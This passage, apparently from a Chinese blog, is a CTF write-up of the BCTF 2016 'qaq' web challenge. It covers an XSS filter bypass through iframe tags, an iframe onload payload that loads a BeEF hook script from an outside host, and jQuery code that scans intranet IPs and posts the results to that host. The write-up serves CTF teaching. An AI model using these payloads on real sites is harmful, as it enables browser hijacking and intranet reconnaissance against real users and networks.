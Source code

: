 title: bctf2016
date: 2016-03-22 12:25:29
tags:
- Blogs
- ctf
categories:
- Blogs
---

前两天打了bctf2016，结果做到最后都没想明白web题目的思路，而且20多道题目，却只有2道web题Orz，真是不给web狗活路,web狗这年头要转型misc了...



# web

## qaq （iframe标签跨域+CORS内网）

hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
hint2: CORS headers

现在能搜到的只有一篇从ctftime上找到的外国人的writeup[https://github.com/raccoons-team/ctf/tree/master/2016-03-19-bctf/web-350-QAQ](https://github.com/raccoons-team/ctf/tree/master/2016-03-19-bctf/web-350-QAQ)

打开题目首先是一个大大的留言板，那基本应该没什么别的了，先尝试bypass xss filter吧。

稍微测试了一下常见的标签都被过滤了，还剩下`<iframe><link>`

link标签只能用来csrf，那应该没错就是ifreame标签了。

我自己使用的是常规的调用方式
```
<iframe src="http://youdomain/xxx.php">
```
在php文件中写入`<script>`就可以执行所需要的js了。

而老外用的是iframe的onload的属性，（如果我没记错的话会被chrome filter拦截）...
```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```
通过上面的代码，成功使用domxss创造了
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
这样一来就可以执行任意的js，当我们提交后，后来管理员就会审核。

上面的老外使用的是beEF框架的hook.js来和服务器沟通，发现大概5秒左右会断开。

题目第一个提示告诉我们秘密在内网中，那么我们需要扫一下host，从beEF中，我们可以看到
```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```
然后检查下hosts中的附近ip，这里老外是用的jquery的请求
```
jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
```